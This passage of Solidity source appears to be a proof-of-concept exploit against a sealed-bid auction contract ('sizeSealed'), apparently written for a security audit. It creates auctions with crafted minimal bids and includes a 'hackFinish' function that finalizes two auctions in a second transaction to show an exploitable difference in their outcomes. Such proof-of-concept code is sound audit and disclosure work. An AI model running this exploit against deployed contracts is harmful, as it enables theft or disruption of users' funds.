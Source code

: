 ```solidity
                privateKey,
                bytes32(baseAmount << 128)
            );
            require(bidId == 0);
        }

        {
            token1.mint(address(this), 321);
            token1.approve(address(sizeSealed), 321);
            secondAuctionId = createAuction(token1, token2, 321);
            require(secondAuctionId == 2);

            uint256 quoteAmount = 1;
            uint256 baseAmount = 0;
            token2.mint(address(this), quoteAmount);
            token2.transfer(address(externalBidder), quoteAmount);
            uint256 bidId = externalBidder.createBid(
                token2,
                sizeSealed,
                secondAuctionId,
                uint128(quoteAmount),
                privateKey,
                bytes32(baseAmount << 128)
            );
            require(bidId == 0);
        }

        return block.timestamp;
    }

    // external to be used in try+catch statement
    function finishAuction(uint256 auctionId) external {
        require(msg.sender == address(this));

        sizeSealed.reveal(auctionId, privateKey, "");
        require(token1.balanceOf(address(this)) == 0);

        uint256[] memory bidIndices = new uint256[](1);
        bidIndices[0] = 0;
        sizeSealed.finalize(auctionId, bidIndices, type(uint128).max, type(uint128).max);
    }

    // Second transaction
    // block.timestamp should be greater or equal to (block.timestamp of the first transaction) + 1
    function hackFinish() external returns (uint256) {
        require(hackStartTimestamp != 0 && block.timestamp >= hackStartTimestamp + 1);

        try this.finishAuction(firstAuctionId) {
            // expected
        } catch {
            revert();
        }

        try this.finishAuction(secondAuctionId) {
            revert();
        } catch {
            // expected
        }

        return block.timestamp;
    }

```